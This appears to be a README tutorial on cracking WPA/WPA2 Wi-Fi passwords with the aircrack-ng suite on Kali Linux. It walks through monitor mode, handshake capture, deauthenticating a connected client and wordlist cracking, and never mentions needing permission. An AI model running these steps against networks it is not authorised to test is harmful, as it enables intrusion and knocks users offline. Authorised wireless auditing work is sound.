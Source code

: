 <h3>WiFi Hacking - Aircrack-ng</h3>

<p>Aircrack-ng is a powerful suite used to audit wireless networks. It captures WPA/WPA2 handshakes via packet sniffing (using tools like airodump-ng), then uses dictionary or brute-force attacks to crack the password. The process typically involves putting the Wi-Fi card into monitor mode, capturing the handshake during a client connection, and using aircrack-ng to attempt key recovery.</p>

OS = Kali Linux Live Everything > You may download it from https://kali.org<br>
Tools - aircrack-ng<br>
<br>
Hardwares - Atheros 9721 or ALFA Model AWUS036NH<br>
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter <b>(Important! It should support "Monitor Mode" otherwise it will not work)<b><br>
<br>
Tool	Purpose	Example Command<br>
<br>
airmon-ng<br>
[Enable monitor mode] >>> sudo airmon-ng start wlan0<br>
<br>
airodump-ng<br>
[Capture network traffic] >>> sudo airodump-ng -c 6 wlan0mon<br>
<br>
aireplay-ng<br>
[Inject/deauth packets] >>> sudo aireplay-ng -0 1 ...<br>
<br>
aircrack-ng<br>
[Crack WPA/WEP keys] >>> sudo aircrack-ng -w wordlist.lst ...<br>
<br>
<br>
Kali Linux Commands:<br>
<br>
1. To check network interfaces
  <pre>ifconfig</pre>
2. To check wireless interfaces
  <pre>iwconfig </pre>
   By default the wireless interface is in MANAGED MODE. <br>

3. STOP - if the interface is wlan0
  <pre>airmon-ng stop wlan0</pre>
4. START - It will be gone into monitoring mode
   <pre>airmon-ng start wlan0</pre>
5. <pre>airodump-ng wlan0 </pre> or wlan0mon
6. <pre>airodump-ng --bssid <b>BSSID</b> --channel <b>CHANNEL</b> -w <b>ESSID</b> wlan0</pre> (or if its wlan0mon)
7. Open another terminal or terminal tab and then enter the following command<br>
8. <pre>aireplay-ng --deauth 10 -a <b>BSSID</b> -c <b>CLIENT_MAC</b> wlan0mon</pre>
   Or wait for someone to join the network. <br>
9. <pre>aircrack-ng -w /path/to/wordlist.txt -b <b>BSSID</b> capture-01.cap</pre>
